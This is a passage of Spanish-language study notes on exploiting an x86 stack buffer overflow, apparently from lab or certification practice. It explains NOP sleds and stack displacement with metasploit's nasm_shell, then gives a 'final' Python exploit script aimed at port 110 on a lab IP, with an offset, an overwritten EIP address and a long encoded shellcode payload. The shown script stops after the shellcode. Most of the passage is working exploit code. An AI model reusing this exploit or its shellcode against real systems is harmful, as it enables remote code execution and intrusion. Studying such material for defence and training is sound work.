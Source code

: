 ### Por lo que, si quisiéramos hacer uso de NOPs simplemente deberíamos representar el byte *\\x90* varías veces, como 16 o 32 antes del shellcode.  
### Por otro lado, si quisiéramos hacer uso del desplazamiento de la pila simplemente podríamos hacer otra vez uso de la herramienta de metasploit **nasm_shell.rb** 

```bash
# NOPs 
nops = b"\x90"*32

# STACK DISPLACEMENT

/usr/share/matasploit-framework/tools/exploit/nasm_shell.rb 
# Entramos en modo interactivo y tipeamos: 
sub esp,0x10
# Esto nos arroja un OpCode (83EC10) decrementa el valor del puntero de pila 10 bytes 
stack_displacement = b"\x83\xEC\x10"

```

### De esta manera habríamos explotado un [[Buffer Overflow]] en una arquitectura x86 (32 bits).

#### Script final: 
```python
#!/usr/bin/python3 

import socket
import sys 
from struct import pack 
ip = "192.168.1.34"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4a358f)
shellcode = (b"\xbd\xb9\xba\x5a\xae\xd9\xe5\xd9\x74\x24\xf4\x5f\x33\xc9"
b"\xb1\x52\x31\x6f\x12\x83\xc7\x04\x03\xd6\xb4\xb8\x5b\xd4"
b"\x21\xbe\xa4\x24\xb2\xdf\x2d\xc1\x83\xdf\x4a\x82\xb4\xef"
b"\x19\xc6\x38\x9b\x4c\xf2\xcb\xe9\x58\xf5\x7c\x47\xbf\x38"
b"\x7c\xf4\x83\x5b\xfe\x07\xd0\xbb\x3f\xc8\x25\xba\x78\x35"
b"\xc7\xee\xd1\x31\x7a\x1e\x55\x0f\x47\x95\x25\x81\xcf\x4a"
b"\xfd\xa0\xfe\xdd\x75\xfb\x20\xdc\x5a\x77\x69\xc6\xbf\xb2"
b"\x23\x7d\x0b\x48\xb2\x57\x45\xb1\x19\x96\x69\x40\x63\xdf"
b"\x4e\xbb\x16\x29\xad\x46\x21\xee\xcf\x9c\xa4\xf4\x68\x56"
b"\x1e\xd0\x89\xbb\xf9\x93\x86\x70\x8d\xfb\x8a\x87\x42\x70"
b"\xb6\x0c\x65\x56\x3e\x56\x42\x72\x1a\x0c\xeb\x23\xc6\xe3"
b"\x14\x33\xa9\x5c\xb1\x38\x44\x88\xc8\x63\x01\x7d\xe1\x9b"
b"\xd1\xe9\x72\xe8\xe3\xb6\x28\x66\x48\x3e\xf7\x71\xaf\x15"
b"\x4f\xed\x4e\x96\xb0\x24\x95\xc2\xe0\x5e\x3c\x6b\x6b\x9e"
b"\xc1\xbe\x3c\xce\x6d\x11\xfd\xbe\xcd\xc1\x95\xd4\xc1\x3e"
b"\x85\xd7\x0b\x57\x2c\x22\xdc\x98\x19\x2d\x3d\x71\x58\x2d"
b"\x3c\x3a\xd5\xcb\x54\x2c\xb0\x44\xc1\xd5\x99\x1e\x70\x19"
b"\x34\x5b\xb2\x91\xbb\x9c\x7d\x52\xb1\x8e\xea\x92\x8c\xec"
b"\xbd\xad\x3a\x98\x22\x3f\xa1\x58\x2c\x5c\x7e\x0f\x79\x92"
b"\x77\xc5\x97\x8d\x21\xfb\x65\x4b\x09\xbf\xb1\xa8\x94\x3e"
b"\x37\x94\xb2\x50\x81\x15\xff\x04\x5d\x40\xa9\xf2\x1b\x3a"
b"\x1b\xac\xf5\x91\xf5\x38\x83\xd9\xc5\x3e\x8c\x37\xb0\xde"
b"\x3d\xee\x85\xe1\xf2\x66\x02\x9a\xee\x16\xed\x71\xab\x37"
b"\x0c\x53\xc6\xdf\x89\x36\x6b\x82\x29\xed\xa8\xbb\xa9\x07"
b"\x51\x38\xb1\x62\x54\x04\x75\x9f\x24\x15\x10\x9f\x9b\x16"
b"\x31")
```